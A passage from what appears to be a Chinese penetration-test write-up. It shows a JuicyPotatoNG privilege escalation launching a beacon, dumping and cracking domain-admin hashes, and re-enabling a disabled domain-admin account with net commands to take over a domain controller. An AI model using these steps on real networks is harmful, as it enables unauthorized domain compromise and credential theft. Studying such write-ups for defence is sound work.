 <https://github.com/antonioCoco/JuicyPotatoNG>

`shell JuicyPotatoNG.exe -t \* -p "beacon.exe"`

![image-20221010151910751.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-34abada8598baf322c130e8118061a1a3d7a6a08.png)

高权限直接注入到域管进程

拿下域控
----

通过机器上的域管进程导出域管账户hash，其中有五个域管用户，cmd5批量解，其中一个域管用户能解出明文信息

```php
net group "domain admins" /domain  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

启用禁用的域管账户，通过域管账户登录域控，over！

![image-20220929151221101.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-d09fbbe905cb8843e4466cc06e8d2a94c5c01f07.png)